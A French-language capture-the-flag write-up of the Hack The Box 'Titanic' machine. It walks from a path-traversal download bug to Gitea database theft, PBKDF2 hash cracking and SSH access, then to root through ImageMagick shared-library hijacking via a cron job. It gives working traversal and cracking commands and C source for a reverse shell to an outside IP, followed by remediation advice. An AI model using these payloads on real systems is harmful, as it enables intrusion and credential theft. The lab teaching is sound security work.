







<h1 align='center'> Titanic </h1>

<br><hr><br>


## Informations:

- Machine: `Titanic`
- URL: `http://titanic.htb`
- IP Address: `10.129.62.193`

- Scope:
	- Trouver __user.txt__ (obtenir shell système) & __root.txt__ (privesc)

## Chaîne d'exploitation (résumé)

```
Web LFI
    → Disclosure config (app.ini)
        → DB extraction
            → Hash cracking
                → SSH user
                    → Cron + ImageMagick abuse
                        → Root shell
```

## Test d'Intrusion:

### Reconnaissance & Scan:

- On ajoute l'hôte
    - cmd: `sudo sh -c "echo '10.129.62.193 titanic.htb' >> /etc/hosts"`

- Scan Nmap
	- cmd: `nmap -sC -sV -T4 titanic.htb`

- Analyse
    - On trouve un port ssh et un service web.
    - La seule interaction visible est avec le bouton "Book Now". Il ouvre une fenêtre pour prendre une réservation et nous fait télécharger un fichier JSON.
    

- Analyse à l'aide de Burp Suite
    - On intercepte la requête à l'aide de Burp et on tombe sur une redirection.
    


### Analyse (LFI & Path Traversal):

- On tente une attaque Path Traversal
    - On obtient:
    
    - Payload: `../../../../etc/hosts`.
    

- Test pour repérer le type d'erreur en retour
    - On essaye d'accéder à un dossier inexistant pour voir le type de retour. Cette fois l'erreur est différente, cela signifie qu'on peut bien y accéder.
    
    - On reviendra sur cette erreur par la suite.

- Énumération de Sous-domaines
    - On se rend sur `dev.titanic.htb`.
    - On tombe sur un Gitea.
    


### Exploitation :

- Nous avons maintenant une LFI confirmée. L’objectif est de remonter progressivement l’arborescence du système pour identifier des fichiers sensibles menant à un accès initial.
- Nos recherches sur l'arborescence standard de Gitea nous incitent à tester l'accès au dossier data :
    
- Le changement du message d'erreur confirme l'existence du répertoire.
- _Analyse de la faille :_ En analysant le code python, on voit bien d'où provient l'erreur:
    ```python
    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
    ```
    - La logique de contrôle repose uniquement sur os.path.exists(). Comme le backend ne contraint pas la variable ticket à un répertoire précis, l’attaquant peut utiliser des séquences ../ pour accéder à n’importe quel fichier du système. send_file() suivra ce chemin et divulguera le fichier ciblé, entraînant une compromission totale du filesystem.
    - Le comportement différencié (404 vs 500) aide à confirmer la LFI : un 404 indique simplement que le fichier n’existe pas, tandis qu’un 500 survient lorsque send_file() tente de lire un chemin non autorisé. Cette différence permet de cartographier le filesystem et d'identifier les chemins valides.

- Analyse Docker
    - En se rendant sur dev.titanic.htb, on trouve deux Dockerfile. On monte l'image localement pour comprendre la structure du projet.
    - cmd: `docker compose up -d` 
    - cmd: `docker compose exec -it gitea sh` 
    - Exploration : `/data/gitea/conf/app.ini`.
    ```shell
    docker compose up -d
    docker compose exec -it gitea sh
    ls
    app    data   etc    lib    mnt    proc   run    srv    tmp    var
    bin    dev    home   media  opt    root   sbin   sys    usr
    cd data
    cd gitea
    ls
    conf  log
    cd conf
    ls
    app.ini
    ```

- Extraction de la Configuration Gitea
    - En parallèle, une lecture du fichier /etc/passwd via la LFI nous a confirmé l'existence de l'utilisateur developer, nous permettant de construire le chemin absolu vers son dossier personnel.
    - On peut désormais tenter d'obtenir le fichier `app.ini`:
    
    - Voici les lignes qui nous intéressent:
    ```ini
    [database]
    PATH = /data/gitea/gitea.db
    DB_TYPE = sqlite3
    ```

- Extraction de la Base de Données
    - On récupère donc la BDD grâce au chemin trouvé précédemment:
    - cmd: `curl "http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db`
    - On obtient, après analyse, ces deux lignes :
    ```
    sqlite> select * from user;
    1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
    2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
    ```

- Cassage des Mots de Passe
    - On récupère donc des mots de passe chiffrés avec l'algorithme pbkdf2 avec 50000 itérations et salt.
    - Afin d'exploiter ces hash, on utilise ce script : [gitea2hashcat.py](https://raw.githubusercontent.com/unix-ninja/hashcat/refs/heads/master/tools/gitea2hashcat.py) trouvé sur github.
    - cmd: `sqlite3 gitea.db 'select salt, passwd from user;' | python3 gitea2hashcat.py` 
    - On peut désormais utiliser hashcat et on obtient le mot de passe associé au user 'developer':
    - cmd: `hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt` 
    - Et on obtient: `developer:25282528`.

- Accès SSH
    - cmd: `ssh developer@10.129.57.160`
    - Got `user.txt` flag.


### Escalade de Privilèges:

- Énumération
    - On cherche l'escalade de privilège.
    - L'utilisation de l'outil pspy64 nous a permis d'intercepter les processus en cours d'exécution et d'identifier que le script identify_images.sh était lancé à intervalles réguliers avec les droits UID 0 (root).
    ```shell
    cat identify_images.sh
    cd /opt/app/static/assets/images
    truncate -s 0 metadata.log
    find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
    ```

- Exploitation
    - On trouve un exploit sur github que l'on utilise: [Arbitrary Code Execution](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).
    - On crée un fichier `shell.c`:
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    __attribute__((constructor)) void init() {
        system("bash -c 'bash -i >& /dev/tcp/10.10.14.103/9001 0>&1'");
        exit(0);
    }
    ```
    - cmd: `gcc -x c -shared -fPIC -o ./libxcb.so.1 shell.c` 
    - On envoie le fichier dans le dossier des images.

- Accès Root
    - Et on obtient finalement un shell root.
    

- Explication de l'exploit:
    - Le script cron se déplace dans le dossier des images avant de lancer ImageMagick. À cause d'une vulnérabilité dans la configuration de l'environnement (variable LD_LIBRARY_PATH mal définie), ImageMagick cherche ses bibliothèques partagées d'abord dans le répertoire courant avant les dossiers système.
    - On exploite cela en créant une fausse bibliothèque nommée libxcb.so.1.
    - Fonctionnement du code C: La clé réside dans `attribute((constructor))`. Cette instruction force l'exécution de la fonction `init()` automatiquement dès le chargement de la bibliothèque en mémoire.
    - Résultat: Quand le cron lance magick, il charge notre fausse librairie libxcb présente dans le dossier, exécute notre reverse shell immédiatement, nous donnant un accès root.

## Remédiation et Durcissement

Suite au test d'intrusion effectué sur la machine Titanic, plusieurs vulnérabilités critiques ont été identifiées, allant de la divulgation d'informations sensibles à la compromission totale du système (accès Root). Pour sécuriser l'infrastructure, il est impératif d'appliquer les mesures correctives suivantes :

- Correction de la vulnérabilité Path Traversal (Web)
L'application web présente une faille de type Local File Inclusion (LFI) via le paramètre `ticket` dans l'endpoint `/download`.

    - Validation des entrées: Il est nécessaire de désactiver l'interprétation des caractères de traversée de répertoire (`../`) et de restreindre les caractères autorisés pour les noms de fichiers (liste blanche alphanumérique).
    - Assainissement du code Python: Dans le code source (backend), il faut utiliser des fonctions sécurisées comme `os.path.basename()` pour s'assurer que seul le nom du fichier est traité, sans son chemin relatif, ou forcer le répertoire de travail à un dossier sécurisé spécifique sans possibilité d'en sortir.

- Renforcement de la gestion des identités (Gitea & SSH)
L'accès initial a été obtenu grâce au craquage d'un hachage de mot de passe faible extrait de la base de données Gitea.

    - Politique de mots de passe: Imposer une politique de complexité robuste (longueur minimale, caractères spéciaux) pour tous les utilisateurs de la plateforme Gitea afin de prévenir les attaques par dictionnaire ou force brute.
    - Rotation des secrets: Modifier immédiatement les mots de passe des comptes compromis (`developer`, `administrator`) et les secrets de configuration (comme `SECRET_KEY` dans `app.ini`).
    - Ségrégation des accès: Empêcher la réutilisation des mots de passe entre les services applicatifs (Gitea) et les accès système (SSH).

- Correction de l'Escalade de Privilèges (Cron & ImageMagick)
L'obtention des droits root a été rendue possible par une mauvaise configuration d'un script planifié (`identify_images.sh`) vulnérable au 'Shared Library Hijacking'.

    - Sécurisation du script: Le script ne doit jamais effectuer de changement de répertoire (`cd`) vers un dossier où un utilisateur non privilégié (ici `developer`) possède des droits d'écriture (`/opt/app/static/assets/images`) avant d'exécuter un binaire.
    - Gestion des variables d'environnement: Il est recommandé de définir explicitement la variable `LD_LIBRARY_PATH` dans le script ou d'utiliser des chemins absolus sécurisés pour empêcher le chargement de bibliothèques malveillantes (comme la fausse `libxcb.so.1`) présentes dans le répertoire courant.
    - Mise à jour logicielle: Mettre à jour ImageMagick vers la dernière version stable pour corriger les vulnérabilités connues liées au chargement dynamique des bibliothèques partagées.
    - Permissions: Restreindre les droits d'écriture sur les répertoires parcourus par des tâches planifiées exécutées en tant que root.

